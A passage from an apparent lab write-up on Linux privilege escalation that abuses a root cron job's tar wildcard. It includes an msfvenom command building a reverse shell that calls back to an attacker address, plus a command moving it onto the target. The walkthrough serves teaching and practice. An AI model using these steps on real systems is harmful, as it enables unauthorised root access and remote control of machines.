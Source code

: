 ```bash
rm /tmp/rootbash
rm /home/user/overwrite.sh
exit
```

### Q1. What is the value of the PATH variable in /etc/crontab?

**Answer:** `/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin`

## Cron Jobs - Wildcards

### Step 1: Inspect the `compress.sh` Script

First, examine the contents of the other cron job script to understand how it operates:

```bash
cat /usr/local/bin/compress.sh
```

**Sample Output:**

```bash
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```

**Explanation:**  
The `compress.sh` script is designed to compress all files in the `/home/user` directory into a tarball (`/tmp/backup.tar.gz`). The wildcard (`*`) in the `tar` command is used to include all files in the directory. This use of a wildcard can be exploited because the `tar` command can interpret files with specific names as command-line options.

### Step 2: Prepare for Exploitation Using `tar`

The `tar` command has a checkpoint feature that can be exploited to execute arbitrary commands. We will create specific files in the `/home/user` directory that `tar` will interpret as options rather than files, triggering the execution of a reverse shell.

**1. Generate a Reverse Shell Binary:**

On your Kali box, use `msfvenom` to create a reverse shell binary:

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
```

**Explanation:**  
This command generates a Linux ELF binary (`shell.elf`) that, when executed, will connect back to your attack machine on the specified IP address and port (`4444`).

**2. Transfer the Reverse Shell Binary to the Target:**

Transfer the `shell.elf` binary to the Debian VM. You can use `scp`, `wget`, or any other method:

```bash
scp shell.elf user@10.10.51.207:/home/user/
```
